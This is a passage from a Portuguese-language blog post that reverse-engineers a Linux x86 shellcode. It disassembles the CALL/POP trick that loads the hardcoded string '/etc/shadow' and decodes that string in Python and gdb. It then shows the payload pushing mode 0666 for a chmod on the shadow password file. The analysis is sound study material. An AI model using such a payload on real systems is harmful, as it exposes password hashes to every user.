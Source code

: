 *"Percebi que essa última instrução, se removida, não afeta o shellcode, uma vez
que o nome do arquivo não é inserido na STACK. Serão, então, a CDQ e a PUSH EDX,
tentativas de evasão de IPS/IDS?"*

Agora, o shellcode faz uma CALL para o EIP somado de 22 bytes. Esta call é
utilizada em conjunto com a próxima instrução que retirará o novo endereço de
EIP da STACK e salvará em EBX, onde o nome do arquivo (primeiro argumento da
syscall) está em forma de bytes.

{% highlight console %}
00000005  E80C000000        call dword 0x16  #Mais um problema no payload - NULL bytes
...
00000016  5B                pop ebx
{% endhighlight %}

Vejam que se convertermos os bytes do trecho entre a CALL (byte 5) e o destino
(byte 16) em string, encontraremos o nome do arquivo.

{% highlight console %}
2F                das
657463            gs jz 0x71
2F                das
7368              jnc 0x79
61                popad
646F              fs outsd
7700              ja 0x16
{% endhighlight %}

A string é hardcoded no payload com a terminação NULL (0).

{% highlight console %}
$ python
{% endhighlight %}

{% highlight python %}
>>>  bytes.fromhex("2F6574632F736861646F7700")
b'/etc/shadow\x00'

{% endhighlight %}

No gdb, podemos verificar isso mais facilmente.

{% highlight console %}
(gdb) x/s $ebx
0x804974a <shellcode+10>: "/etc/shadow"

(gdb) x/12bx $ebx
0x804974a <shellcode+10>: 0x2f 0x65 0x74 0x63 0x2f 0x73 0x68 0x61
0x8049752 <shellcode+18>: 0x64 0x6f 0x77 0x00
{% endhighlight %}

Em seguida, é inserido na STACK e retirado com POP ECX o bit mask para uso como
segundo argumento da syscall chmod.

{% highlight console %}
00000017  68B6010000        push dword 0x1b6
0000001C  59                pop ecx
{% endhighlight %}
